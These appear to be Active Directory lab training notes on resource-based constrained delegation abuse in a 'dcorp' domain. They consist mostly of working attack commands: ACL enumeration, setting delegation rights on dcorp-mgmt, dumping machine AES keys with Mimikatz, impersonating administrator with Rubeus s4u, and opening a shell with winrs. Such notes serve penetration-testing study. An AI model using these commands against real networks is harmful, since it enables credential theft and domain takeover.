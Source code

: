 - We already have admin privileges on student VMs that are domain joined machines.
- Enumeration would show that the user 'ciadmin' has Write permissions over the dcorp-mgmt machine!
```
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```
- Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines :
```
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```
- Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

- Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-mgmt as ANY user we want:
```
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
```

